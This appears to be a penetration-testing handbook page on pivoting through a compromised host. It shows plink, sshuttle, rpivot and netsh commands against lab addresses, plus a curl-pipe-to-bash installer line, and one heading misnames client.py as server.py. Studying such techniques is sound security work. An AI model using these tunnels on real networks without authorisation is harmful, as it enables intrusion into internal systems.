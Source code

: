 ```yaml
---
title: "Pivoting with Tools"
type: handbook
weight: 5
---
```


## Windows: plink.exe

[Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html), short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies.

### Getting To Know Plink

![](plink-1.webp)

#### Using Plink.exe

```bash {filename= "Windows CMD"}}
plink -ssh -D 9050 ubuntu@10.129.15.50
```

## Windows: Proxifier

Another Windows-based tool called [Proxifier](https://www.proxifier.com/) can be used to start a SOCKS tunnel via the SSH session we created. Proxifier is a Windows tool that creates a tunneled network for desktop client applications and allows it to operate through a SOCKS or HTTPS proxy and allows for proxy chaining.

![](proxifier.webp)

## Linux: Sshuttle

[Sshuttle](https://github.com/sshuttle/sshuttle) is another tool written in Python which removes the need to configure proxychains. However, this tool only works for pivoting over SSH and does not provide other options for pivoting over TOR or HTTPS proxy servers. `Sshuttle` can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host. 

### Running sshuttle

To use sshuttle, we specify the option `-r` to connect to the remote machine with a username and password. Then we need to include the network or IP we want to route through the pivot host, in our case, is the network 172.16.5.0/23.

```bash
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v
```

With this command, sshuttle creates an entry in our `iptables` to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

### Traffic Routing through iptables Routes

```bash
nmap -v -sV -p3389 172.16.5.19 -A -Pn
```

## Web Server Pivoting: Rpivot

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. 

![](rpivot.webp)

### Cloning rpivot

```bash
git clone https://github.com/klsecservices/rpivot.git
```

### Installing Python2.7

```bash
sudo apt-get install python2.7
```

### Alternative Installation of Python2.7

```bash
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```

### Transferring rpivot to the Target

```bash
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

### Running server.py from the Attack Host

```bash
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

### Confirming Connection is Established

```bash
New connection from host 10.129.202.64, source port 35226
```

### Browsing to the Target Webserver using Proxychains

```bash
proxychains firefox-esr 172.16.5.135:80
```

![](rpivot_proxychain.webp)


```bash {filename="Note-"}
rpivot's server.py need to be run from Attack Host
rpivot's client.py need to be run from Pivot Host
```

### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```bash
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Port Forwarding with Windows: Netsh

[Netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) is a Windows command-line tool that can help with the network configuration of a particular Windows system. Here are just some of the networking related tasks we can use `Netsh` for:

* `Finding routes`
* `Viewing the firewall configuration`
* `Adding proxies`
* `Creating port forwarding rules`

![](netsh.webp)

We can use `netsh.exe` to forward all data received on a specific port (say 8080) to a remote host on a remote port. This can be performed using the below command.

### Using Netsh.exe to Port Forward

```bash
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

### Verifying Port Forward

```bash
C:\Windows\system32> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
10.129.15.150   8080        172.16.5.25     3389
```

### Connecting to the Internal Host through the Port Forward

![](netsh_pivot.webp)

